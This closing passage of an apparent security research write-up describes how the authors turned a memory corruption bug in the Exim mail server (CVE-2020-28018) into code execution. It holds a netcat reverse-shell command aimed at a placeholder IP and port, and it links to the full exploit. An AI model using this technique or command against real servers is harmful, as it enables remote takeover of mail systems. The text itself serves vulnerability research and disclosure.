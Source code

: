 ACL is overwritten by our custom command, how do we make it be executed?

Once the ACL is corrupted, in this case I overwrote the ACL corresponding to `MAIL FROM` commands, we need to make that ACL being interpreted by `expand_cstring()`. To do so, after the `MAIL FROM` we used to overwrite the ACL we can pipeline another command (`MAIL FROM` too as the previous one failed) which will make the ACL being passed to `expand_cstring()` and the command will finally be executed.

I had a problem with max arguments. I could not `nc -e/bin/sh <ip> <port>`, just two args were allowed. So I used this as command: `/bin/sh -c 'nc -e/bin/sh <ip> <port>'`.

Now it won't give us max_args problem and the command will be executed, resulting on a reverse shell:

![RCE_Screenshot](https://i.imgur.com/u8icysF.png)

## EoF

The full exploit can be found [here](https://github.com/lockedbyte/CVE-Exploits/blob/master/CVE-2020-28018/exploit.c).

We hope you enjoyed this reading! Feel free to give us feedback at our twitter [@AdeptsOf0xCC](https://twitter.com/AdeptsOf0xCC).







